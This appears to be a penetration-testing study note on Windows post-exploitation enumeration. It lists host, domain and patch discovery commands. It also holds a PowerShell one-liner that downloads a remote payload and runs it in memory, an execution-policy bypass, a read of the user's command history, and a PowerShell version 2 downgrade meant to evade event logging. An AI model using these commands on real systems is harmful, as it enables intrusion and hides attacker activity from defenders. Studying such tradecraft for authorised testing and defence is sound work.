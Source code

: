 basic environmental commands that can be used to give us more information about the host we are on
```powershell
hostname    # Prints the PC's Name
systeminfo # Host info 
[System.Environment]::OSVersion.Version    # Prints out the OS version and revision level
wmic qfe get Caption,Description,HotFixID,InstalledOn    # Prints the patches and hotfixes applied to the host
ipconfig /all    # Prints out network adapter state and configurations
set    # Displays a list of environment variables for the current session (ran from CMD-prompt)
echo %USERDOMAIN%    # Displays the NetBOIS domain name to which the host belongs (ran from CMD-prompt)
%USERDNSDOMAIN%      # Displays the full DNS-style domain name (e.g., corp.example.com) (run on cmd )
echo %logonserver%    # Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)
```

## Harnessing PowerShell
### Quick Checks Using PowerShell
```powershell
Get-Module # Lists available modules loaded for use.

Get-ExecutionPolicy -List # Will print the execution policy settings for each scope on a host.
Set-ExecutionPolicy Bypass -Scope Process # This will change the policy for our current process

Get-ChildItem Env: | ft Key,Value # Return environment values such as key paths, users, computer information, etc.
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt # get the current user PowerShell history
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.10/payload.ps1'); Invoke-Payload" # download a file from the web using PowerShell and call it from memory.
```
### Downgrade Powershell
PowerShell event logging started in version 3.0. By running PowerShell 2.0 or older, we can avoid logging in Event Viewer and stay stealthy.
```powershell
Get-host # get powershell version 5 
powershell.exe -version 2 # switch to powershell version 2
Get-host # get powershell version 2
```
Let's check and see if we are still writing logs:
 open **Event Viewer** →  Search in Start Menu type `Event Viewer` and open it .
- The primary place to look is in the `PowerShell Operational Log` found under `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`. All commands executed in our session will log to this file.
- The `Windows PowerShell` log located at `Applications and Services Logs > Windows PowerShell` is also a good place to check
![[Pasted image 20250812213638.png]]
With Script Block Logging enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. 
## Checking Defenses
```powershell
# Firewall Checks
netsh advfirewall show allprofiles

# Windows Defender Check (from CMD.exe)
sc query windefend

# Windows Defender configuration settings (from powershell.exe)
Get-MpComputerStatus
```